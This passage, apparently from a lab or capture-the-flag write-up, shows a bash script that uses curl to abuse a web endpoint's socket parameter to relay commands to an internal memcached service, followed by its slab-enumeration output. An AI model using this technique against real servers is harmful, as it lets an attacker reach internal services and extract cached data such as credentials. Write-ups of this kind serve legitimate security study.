 To that end, I wrote a script to extract information from `memcached`, using `curl` as the driver.

<div class="filename"><span>memcache.sh</span></div>

```bash
#!/bin/bash

RHOST=10.10.10.86
RPORT=8080
MPORT=11211
CMD="$@"

curl -s \
     -b "password=secret" \
     "http://$RHOST:$RPORT/socket?port=$MPORT&cmd=$CMD" \
| sed '/<pre>/,/<\/pre>/!d' \
| sed -e '1d' -e '$d'
```

Using the `memcached` command `stats slabs`, I was able to enumerate the slabs storing the keys in memory.

```
# ./memcache.sh stats slabs
STAT 16:chunk_size 2904
STAT 16:chunks_per_page 361
STAT 16:total_pages 1
STAT 16:total_chunks 361
STAT 16:used_chunks 1
STAT 16:free_chunks 360
STAT 16:free_chunks_end 0
STAT 16:mem_requested 2880
STAT 16:get_hits 0
STAT 16:cmd_set 8
STAT 16:delete_hits 0
STAT 16:incr_hits 0
STAT 16:decr_hits 0
STAT 16:cas_hits 0
STAT 16:cas_badval 0
STAT 16:touch_hits 0
STAT 26:chunk_size 27120
STAT 26:chunks_per_page 38
STAT 26:total_pages 1
STAT 26:total_chunks 38
STAT 26:used_chunks 1
STAT 26:free_chunks 37
STAT 26:free_chunks_end 0
STAT 26:mem_requested 24699
STAT 26:get_hits 245025
STAT 26:cmd_set 455
STAT 26:delete_hits 0
STAT 26:incr_hits 0
STAT 26:decr_hits 0
STAT 26:cas_hits 0
STAT 26:cas_badval 0
STAT 26:touch_hits 0
STAT active_slabs 2
STAT total_malloced 2078904
END
```
